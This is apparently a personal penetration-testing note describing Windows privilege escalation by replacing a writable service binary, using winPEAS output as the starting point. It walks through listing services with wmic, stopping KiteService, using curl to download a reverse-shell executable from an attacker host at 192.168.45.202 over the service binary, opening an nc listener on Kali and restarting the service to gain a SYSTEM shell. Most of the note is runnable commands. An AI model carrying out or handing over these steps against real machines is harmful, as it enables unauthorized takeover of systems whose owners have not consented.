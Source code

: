 public:: true

- If [[winPEAS]] tells you that there are services ran by privileged users for which you can swap the called binary and then restart the service.
- WinPEAS returns something like this
  ```
  [...]
  Installed Applications --Via Program Files/Uninstall registry--
  Check if you can modify installed software https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#software
      C:\Program Files\Common Files
      C:\Program Files\desktop.ini
      C:\Program Files\FreeSWITCH(chris [AllAccess])
      C:\Program Files\Internet Explorer
      C:\Program Files\Kite(chris [WriteData/CreateFiles])
  	[...]
  ```
- Get a list of services along with users who ran them and the pathname of the file executed
  ```cmd
  > wmic service get name,startname,pathname,state
  [...]
  KiteService	C:\program files\Kite\KiteService.exe	LocalSystem	Running
  [...]
  ```
	- To check the owner of a specific process
	  ```cmd
	  tasklist /v
	  ```
- Stop the service
  ```powershell
  stop-service -name kiteservice
  ```
- Swap the binary with a reverse shell
  ```powershell
  curl "http://192.168.45.202:8000/rev_cmd_4444.exe" -o "C:\program files\Kite\KiteService.exe"
  ```
- Start a listener on Kali on port *4444*
  ```bash
  > rlwrap nc -lnvp 4444
  ```
- Start the service
  ```powershell
  start-service -name kiteservice
  ```